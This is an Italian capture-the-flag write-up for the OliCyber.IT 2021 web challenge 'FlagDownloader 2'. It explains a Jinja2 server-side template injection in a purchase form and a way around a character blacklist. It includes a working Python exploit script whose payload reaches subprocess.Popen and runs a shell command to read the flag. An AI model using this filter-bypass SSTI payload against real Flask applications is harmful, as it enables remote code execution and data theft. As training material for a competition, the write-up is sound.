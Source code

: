# OliCyber.IT 2021 - Competizione nazionale

## [web-02] FlagDownloader 2 (4 risoluzioni)

La versione gratuita non sempre è desiderabile, perché non pagare per avere la flag più velocemente?

Il nostro obiettivo è leggere il file `/flag.txt`.

### Soluzione

Giocando un po' con gli input nella pagina di acquisto si può arrivare a notare che il form è vulnerabile a una Server-Side Template Injection.

In particolare si può notare che se inseriamo come indirizzo il valore `{{ 7 * 7 }}` nella pagina di riepilogo ci viene mostrato `49`.

Con opportune verifiche si può trovare che il server è scritto in Python e utilizza il template engine Jinja2 con Flask.

Si può quindi costruire un payload che sfrutti questi prerequisiti per effettuare una RCE e leggere il file `/flag.txt`.

L'unica accortezza a cui fare attenzione è che il server blocca tutti i payload con i caratteri `_%'.\<>`, per cui bisogna ingegnarsi per bypassare i filtri.

### Exploit

Il seguente script usa Python per effettuare una richiesta contenente il payload della template injection.

```python
import requests, re, html

host = 'http://localhost:8080'

payload='{{[][config["FLAG"][61]*2 + "class" + config["FLAG"][61]*2][ config["FLAG"][61]*2 + "mro" + config["FLAG"][61]*2][1][config["FLAG"][61]*2+"subclasses"+config["FLAG"][61]*2]()[360]("cat /flag*",shell=True,stdout=-1)["communicate"]()[0]}}'

data = {
    'inputEmail': 'a@a.a',
    'inputPassword': 'a',
    'inputAddress': payload,
    'inputCreditCard': '123'
}

r = requests.post(host + '/premium', data=data)

m = re.search(r'<td>address</td> <td>(.*)</td>',r.text)

if m:
    print(html.unescape(m.group(1)))
else:
    print(r.text)
```
